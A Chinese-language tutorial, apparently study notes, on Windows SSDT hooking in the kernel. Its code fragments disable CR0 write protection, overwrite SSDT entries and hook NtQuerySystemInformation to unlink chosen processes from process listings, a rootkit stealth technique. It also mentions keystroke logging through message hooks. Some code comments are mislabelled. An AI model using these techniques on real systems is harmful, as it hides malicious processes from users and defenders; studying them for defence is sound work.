



# 进程隐藏
## 摘要
* 本文主要通过介绍HOOK技术来引入SSDT HOOK技术，同时详细学习了SSDT表的结构，根据理解及学习实现SSDT HOOK技术，然后通过SSDT HOOK技术在内核层实现进程隐藏。
## 关键词
* HOOK,ring0，ring3，SSDT，API，进程隐藏
## 目录
1. [HOOK技术](#1)
2. [SSDT](#2)
3. [应用层调用Win32 API的执行流程](#3)
4. [SSDT HOOK](#4)
5. [Ring0 实现进程隐藏](#5)
6. [参考文献](#6)
## <h2 id="1">1. HOOK技术</h2>
* HOOK技术是指用于通过拦截在软件模块之间传递的函数调用、消息传递、事件传递来改变或扩展操作系统、应用程序或其他软件的行为的技术。处理被拦截的函数调用、事件、消息的代码，被称为HOOK。HOOK是Windows消息处理机制的一个手段,应用程序可以在上面设置子程序以监视指定窗口的某种消息，而且所监视的窗口可以是其他进程所创建的。当消息到达后，在目标窗口处理函数之前处理它。HOOK机制允许应用程序截获处理window消息或特定事件。因此，可以将HOOK理解为一个处理消息的程序段，通过系统调用，把它挂入系统。每当特定的消息发出，在没有到达目的窗口前，HOOK程序就先捕获该消息，即HOOK函数先得到消息。这时钩子函数即可以改变该消息，也可以不作处理而继续传递该消息，还可以强制结束消息的传递。
* Intel的CPU将特权等级分为4个级别：RING0(内核层),RING1,RING2,RING3(应用层)。本文涉及的HOOK知识主要为内核层的SSDT HOOK技术，是内核层HOOK的一种。
* 对于 Hook 技术，可分为两类，第一类是在 Ring3 层的 Hook，俗称应用层 Hook 技术，第二类是在 Ring0 层得 Hook，称为内核层 Hook 技术，而在 Ring3 层的 Hook 有可以分为两大类，第一类即是 Windows 消息的 Hook，第二类则是 Windows API 的 Hook。
* 关于 Windows 消息的 Hook，通过 SetWindowsHookEx 即可以完成消息 Hook。消息 Hook 是通过 SetWindowsHookEx 可以实现将自己的HOOK插入到HOOK链的最前端，而对于发送给被 Hook 的窗口(也有可能是所有的窗口，即全局 Hook)的消息都会被我们定义的HOOK处理函数所捕获到，也就是我们可以优先于窗体先捕获到这些消息，Windows 消息 Hook 可以实现为进程内消息 Hook 和全局消息 Hook对于进程内消息 Hook，则可以简单的将 Hook 处理函数直接写在这个进程内，即是自己 Hook 自己，而对于全局消息 Hook，则需要将 Hook 处理函数写在一个 DLL 中，这样才可以让处理函数被所有的进程所加载(进程自动加载包含 Hook 消息处理函数的 DLL)。对于 Windows 消息 Hook 的利用方式：记录键盘按键消息，从而达到监视用户输入的键值信息的目的，这样，对于一些简单的用户通过键盘输入的密码就可以被 Hook 获取到，因为没当用户按下一个键时，Windows 都会产生一个按键消息(有按下弹起等消息的区分)，可以 Hook 到这个按键消息，这样就可以在 Hook 的消息处理函数中获取到用户按下的是什么键。
* HOOK链表：每一个Hook都有一个与之相关联的指针列表，称为HOOK链表，由系统来维护。被Hook子程调用的回调函数，也就是该HOOK的各个处理子程。当与指定的Hook类型关联的消息发生时，系统就把这个消息传递到Hook子程。一些Hook子程可以只监视消息，或者修改消息，或者停止消息的前进，避免这些消息传递到下一个Hook子程或者目的窗口。最近安装的HOOK放在链的开始，而最早安装的HOOK放在最后，也就是后加入的先获得控制权。HOOK子程是一个应用程序定义的回调函数(CALLBACKFunction),不能定义成某个类的成员函数，只能定义为普通的C函数。用以监视系统或某一特定类型的事件，这些事件可以是与某一特定线程关联的，也可以是系统中所有线程的事件。
## <h2 id="2">2. SSDT</h2>
* SSDT(System Services Descriptor Table，系统服务描述符表),作用是把 Ring3 的 Win32 API 和 Ring0 的内核 API 联系起来。SSDT 不只是一个地址索引表，还包含地址索引的基地址、服务函数个数等。通过修改SSDT的函数地址可以对常用windows函数进行hook，实现对一些核心的系统动作进行过滤、监控的目的。如下图所示对SSDT进行HOOK：
	
* windows操作系统中的SSDT表分别为KeServiceDescriptorTable 和 KeServiceDescriptorTableShadow。其中 KeServiceDescriptorTable 主要处理来自应用层的 Kernel32.dll 中的系统调用。KeServiceDescriptorTableShadow 主要处理来自 User32.dll 和 GDI32.dll 中的系统调用。在ntoskrnl.exe( Windows 操作系统的一个重要内核程序文件，用于调度系统)中，可以发现KeServiceDescriptorTable 是导出的，而KeServiceDescriptorTableShadow 是未被导出的。如下图所示：
	
* Windows对于SSDT的定义如下，根据此结构可以将SSDT看作是数组，用户在应用层Ntdll.dll 中调用API时，在内核层会通过SSDT替换成对应的系统服务，即每个**索引→服务**
	<pre>
	typedef struct _KSYSTEM_SERVICE_TABLE
	{
		PULONG  ServiceTableBase;					// SSDT (System Service Dispatch Table)的基地址
		PULONG  ServiceCounterTableBase;			// 用于 checked builds, 包含 SSDT 中每个服务被调用的次数
		ULONG   NumberOfService;					// 服务函数的个数, NumberOfService * 4 就是整个地址表的大小
		PVOID   ParamTableBase;						// SSPT(System Service Parameter Table)的基地址  
	} KSYSTEM_SERVICE_TABLE, *PKSYSTEM_SERVICE_TABLE;
	
	typedef struct _KSERVICE_TABLE_DESCRIPTOR
	{
		KSYSTEM_SERVICE_TABLE   ntoskrnl;			// ntoskrnl.exe 的服务函数
		KSYSTEM_SERVICE_TABLE   win32k;				// win32k.sys 的服务函数(GDI32.dll/User32.dll 的内核支持)
		KSYSTEM_SERVICE_TABLE   notUsed1;
		KSYSTEM_SERVICE_TABLE   notUsed2;
	} KSERVICE_TABLE_DESCRIPTOR, *PKSERVICE_TABLE_DESCRIPTOR;
	</pre>
* SSDT与KSYSTEM_SERVICE_TABLE之间的关系：在WindowsNT系列操作系统中，有两种类型的系统服务，一种实现在内核文件中，是常用的系统服务；另一种实现在win32k.sys中，是一些与图形显示及用户界面相关的系统服务。这些系统服务在系统执行期间常驻于系统内存区中，并且他们的入口地址保存在两个系统服务地址表KiServiceTable和Win32pServiceTable中。而每个系统服务的入口参数所用的总字节数则分别保存在另外两个系统服务参数表（ArgumentTable）中。系统服务地址表和系统参数表是一一对应的，每个系统服务表（一下简称SST）都指向一个地址表和一个参数表。在Windows 2000/xp/7系统中,只有两个SST。一个SST指向了KiServiceTable，而另一个SST则指向了Win32pServiceTable.所有的SST都保存在系统服务描述表（SDT）中。系统中一共有两个SDT，一个是ServiceDescriptorTable，另一个是ServiceDescriptorTableShadow。ServiceDescriptor中只有指向KiServiceTable的SST，而ServiceDescriptorTableShadow则包含了所有的两个SST。SSDT是可以访问的，而SSDTShadow是不公开的。windows内核文件导出了一个公开的变量KeServiceDecriptorTable，它指向了SSDT。在内核程序中可以直接使用这个变量，通过数据结构之间的关系，找到KiServiceTable，然后从KiServiceTable中查找任何一个系统服务的入口地址。
	
## <h2 id="3">3. 应用层调用Win32 API的执行流程</h2>
* 通常系统调用提供的服务都运行在内核态，应用程序通常运行在用户态，操作系统一般通过中断实现从用户态到内核态的切换。通常在具体实现过程中，中断一般涉及两个属性，中断号和中断处理程序。通常一个中断号对应一个中断处理程序，内核中中断向量表保存着它们之间的对应关系。
* 根据第二节分析可以发现应用层调用 Win32 API 的流程大致为(此处以Ring3调用CreateProcess函数为例)：API通过kernel.dll导出，然后调用ntdll.dll导出的NtCreateProcess函数，ntdll.dll通过一个中断请求int 2Eh（Sysenter）进入内核态，当程序的处理流程进入ring0之后，系统会根据服务号（eax）在SSDT这个系统服务描述符表中查找对应的表项，这个找到的表项就是系统服务函数NtOpenProcess的真正地址。之后，系统会根据这个地址调用相应的系统服务函数，并把结果返回给ntdll.dll中的NtOpenProcess。ntoskrnl.exe文件位于Windows的system32目录下。,然后调用Ring0的ntoskrnl.exe中的SSDT表来获取对应的服务。
	
* ntoskrnl.exe（Windows NT operating system kernel的缩写）又叫内核映像，是Windows NT内核空间提供内核和执行层，并负责硬件虚拟化、进程和内存管理等多种系统服务，属于系统最基本的部分。它具有缓存管理、执行指令、内核、安全访问监督、内存管理及任务调度等功能。
## <h2 id="4">4. SSDT HOOK</h2>
* 已知win32 API的执行流程以及SSDT结构，据此可以发现SSDT HOOK的基本思路是：查找函数地址→保存原地址→替换地址。在篡改SSDT之前需要去掉Windows的页保护，以便修改SSDT表。
* 在调用内核层的服务时，索引号(系统调用号)存储在eax寄存器中，该寄存器为32位值,系统服务号码分为三部分：0-11bit是要调用的系统服务号（SSN），12-13bit是服务描述符表（SDT），14-31位未使用。SDT位用于选择合适的系统描述符表(SDT),因此，系统中最多只允许存在4个系统描述表，在Windows操作系统中，只使用了两个表，分别为KeServiceDescriptorTable（中间位设置为0x00）和KeServiceDescriptorTableShadow（中间位设置为0x01）。
* 在篡改SSDT表时遇到的第一个问题便是SSDT位于只读存储器中，这将导致无法在SSDT表的选定**索引→服务**项中写入指向我们自定义函数的指针，解决方法也很简单，只需修改CR0寄存器中的WP标志位的值(0表示SSDT表的选定条目中写入指向我们函数的指针)。
* 去页面保护：为了安全起见，Windows XP及其以后的系统将一些重要的内存页设置为只读属性，以防止该类页的随意修改，SSDT表即为受保护的一种。但这种方法可以被绕过，只需将这些部分修改为可写属性即可，实验完成后再改回为只读，否则可能造成一些无法预料的后果。cr0寄存器到486的处理器版本被加入了“写保护”（Write Protect，WP）位，WP位控制是否允许处理器向标记为只读属性的内存页写入数据。实现去保护的代码：
	<pre>
	//=====================================================================================//
	//Name: VOID DisableWriteProtect()												       //
	//                                                                                     //
	//Descripion: 用来去掉内存的可写属性，从而实现内存只读						           //
	//            				                            						       //
	//=====================================================================================//
	VOID DisableWriteProtect(ULONG oldAttr)
	{
		_asm
		{
			mov eax, oldAttr
			mov cr0, eax
			sti;
		}
	}
	
	
	//=====================================================================================//
	//Name: VOID EnableWriteProtect()												       //
	//                                                                                     //
	//Descripion: 用来去掉内存的只读保护，从而实现可以写内存					           //
	//            				                            						       //
	//=====================================================================================//
	VOID EnableWriteProtect(PULONG pOldAttr)
	{
		ULONG uAttr; 
	
		_asm 
		{ 
			cli;
			mov  eax, cr0; 
			mov  uAttr, eax; 
			and  eax, 0FFFEFFFFh; // CR0 16 BIT = 0 
			mov  cr0, eax; 
		}; 
	
		//保存原有的 CRO 属性 
		*pOldAttr = uAttr; 
	}
	</pre>
* 然后备份原有的SSDT表，既然知道SSDT表实际是一种数组，那就用数组的方法备份此表
	<pre>
	//=====================================================================================//
	//Name: VOID BackupSysServicesTable()											       //
	//                                                                                     //
	//Descripion: 用来备份 SSDT 中原有服务的地址，因为我们在解除 Hook 时需要还原 SSDT 中原有地址 //
	//            				                            						       //
	//=====================================================================================//
	VOID BackupSysServicesTable()
	{
		ULONG i;
	
		for(i = 0; (i < KeServiceDescriptorTable->ntoskrnl.NumberOfService) && (i < MAX_SYSTEM_SERVICE_NUMBER); i++)
		{
			oldSysServiceAddr[i] = KeServiceDescriptorTable->ntoskrnl.ServiceTableBase[i];
			//oldSysServiceAddr[i] = *(PULONG)((ULONG)KeServiceDescriptorTable->ntoskrnl.ServiceTableBase + 4 * i);
	
			KdPrint(("\nBackupSysServicesTable - Function Information { Number: 0x%04X , Address: %08X}", i, oldSysServiceAddr[i]));
		}
	}
	
	</pre>
* 现在最重要的就是获取索引，并对索引指向的内容进行修改即可实现函数劫持的目的。而且在应用层ZwQuerySystemInformation和NtQuerySystemInformation其实是指向同一入口地址的函数，但在内核层zw实现的是将函数索引号传递给SSDT，而NT则是函数实现。因此篡改SSDT表实际是对ZW函数进行修改，而对NT函数不做处理。获取索引号的代码：
	<pre>
	//根据 Zw_ServiceFunction 获取 Zw_ServiceFunction 在 SSDT 中所对应的服务的索引号
	#define SYSCALL_INDEX(ServiceFunction) (*(PULONG)((PUCHAR)ServiceFunction + 1))
	
	
	//根据 Zw_ServiceFunction 来获得服务在 SSDT 中的索引号，
	//然后再通过该索引号来获取 Nt_ServiceFunction的地址
	#define SYSCALL_FUNCTION(ServiceFunction) KeServiceDescriptorTable->ntoskrnl.ServiceTableBase[SYSCALL_INDEX(ServiceFunction)]
	</pre>
* 然后开始进行SSDT HOOK，也就是将已经计算出的需要劫持的函数的索引号和基地址进行替换(HOOK).
	<pre>
		//=====================================================================================//
		//Name: NTSTATUS InstallSysServiceHook()										       //
		//                                                                                     //
		//Descripion: 实现 Hook 的安装，主要是在 SSDT 中用 newService 来替换掉 oldService	   //
		//            				                            						       //
		//=====================================================================================//
		NTSTATUS InstallSysServiceHook(ULONG oldService, ULONG newService)
		{
			ULONG uOldAttr = 0;
		
			EnableWriteProtect(&uOldAttr);
		
			SYSCALL_FUNCTION(oldService) = newService;
			//KeServiceDescriptorTable->ntoskrnl.ServiceTableBase[SYSCALL_INDEX(oldService)] = newService;
		
			DisableWriteProtect(uOldAttr);
		
			return STATUS_SUCCESS;
		}
		
		
		//=====================================================================================//
		//Name: NTSTATUS UnInstallSysServiceHook()										       //
		//                                                                                     //
		//Descripion: 实现 Hook 的解除，主要是在 SSDT 中用备份下的服务地址来替换掉 oldService  //
		//            				                            						       //
		//=====================================================================================//
		NTSTATUS UnInstallSysServiceHook(ULONG oldService)
		{
			ULONG uOldAttr = 0;
		
			EnableWriteProtect(&uOldAttr);
		
			SYSCALL_FUNCTION(oldService) = oldSysServiceAddr[SYSCALL_INDEX(oldService)];
			//KeServiceDescriptorTable->ntoskrnl.ServiceTableBase[SYSCALL_INDEX(oldService)] = oldSysServiceAddr[SYSCALL_INDEX(oldService)];
		
			DisableWriteProtect(uOldAttr);
		
			return STATUS_SUCCESS;
		}
	</pre>
## <h2 id="5">5. Ring0 实现进程隐藏</h2>
* 首先需要在Ring3下获取当前系统下的所有进程，本文使用的方法即是对Ndll.dll中的 NtQuerySystemInformation API 的调用。
* 根据上述HOOK方式，即可实现进程隐藏。即通过Hook NtQuerySystemInformation 来实现，在自定义的HOOK处理函数中进行进程隐藏就可以了。首先需要在声明ntddk.h中声明自己的ZwQuerySystemInformation 和 NtQuerySystemInformation两个函数来实现HOOK。
	<pre>
	NTSTATUS HookNtQuerySystemInformation (
		__in SYSTEM_INFORMATION_CLASS SystemInformationClass,
		__out_bcount_opt(SystemInformationLength) PVOID SystemInformation,
		__in ULONG SystemInformationLength,
		__out_opt PULONG ReturnLength
		)

	NTSTATUS HookNtQueryDirectoryFile(
		__in     HANDLE                 FileHandle,
		__in_opt HANDLE                 Event,
		__in_opt PIO_APC_ROUTINE        ApcRoutine,
		__in_opt PVOID                  ApcContext,
		__out    PIO_STATUS_BLOCK       IoStatusBlock,
		__out    PVOID                  FileInformation,
		__in     ULONG                  Length,
		__in     FILE_INFORMATION_CLASS FileInformationClass,
		__in     BOOLEAN                ReturnSingleEntry,
		__in_opt PUNICODE_STRING        FileName,
		__in     BOOLEAN                RestartScan
		)
	</pre>
* 完成函数的声明之后就是具体的实现了，首先判断进程ID是否是目标(需要进行隐藏)进程ID然后再进行隐藏，需要注意的是，在每次HOOK之前都需要备份SSDT，以保证之后能对HOOK进行安全拆除。
	<pre>
	while(pCurrProcessInfo != NULL)
				{
					//获取当前遍历的 SYSTEM_PROCESS_INFORMATION 节点的进程名称和进程 ID
					ULONG uPID = (ULONG)pCurrProcessInfo->UniqueProcessId;
					UNICODE_STRING strTmpProcessName = pCurrProcessInfo->ImageName;
	
					//判断当前遍历的这个进程是否为需要隐藏的进程
					if(ValidateProcessNeedHide(uPID) != -1)
					{
						if(pPrevProcessInfo)
						{
							if(pCurrProcessInfo->NextEntryOffset)
							{
								//将当前这个进程(即要隐藏的进程)从 SystemInformation 中摘除(更改链表偏移指针实现)
								pPrevProcessInfo->NextEntryOffset += pCurrProcessInfo->NextEntryOffset;
							}
							else
							{
								//说明当前要隐藏的这个进程是进程链表中的最后一个
								pPrevProcessInfo->NextEntryOffset = 0;
							}
						}
						else
						{
							//第一个遍历到得进程就是需要隐藏的进程
							if(pCurrProcessInfo->NextEntryOffset)
							{
								(PCHAR)SystemInformation += pCurrProcessInfo->NextEntryOffset;
							}
							else
							{
								SystemInformation = NULL;
							}
						}
					}
	</pre>
## <h2 id="6">6. 参考文献</h2>
* [struct__KSERVICE__TABLE__DESCRIPTOR](https://doxygen.reactos.org/d6/dba/struct__KSERVICE__TABLE__DESCRIPTOR.html)
* [How-Can-I-Get-the-Address-of-KeServiceDescriptorTa](https://www.codeproject.com/Articles/26368/How-Can-I-Get-the-Address-of-KeServiceDescriptorTa)
* [SSDT-Hook](https://github.com/yawenok/SSDT-Hook/tree/master/sources)
* [Thinking in code](http://www.cnblogs.com/cryinstall/archive/2011/08/30/2280826.html)
* [get-original-ssdt](http://www.blogfshare.com/get-original-ssdt.html)
* [Ntoskrnl.exe](https://zh.wikipedia.org/wiki/Ntoskrnl.exe)
* [hooking-system-service-dispatch-table-ssdt](https://resources.infosecinstitute.com/hooking-system-service-dispatch-table-ssdt/#gref)

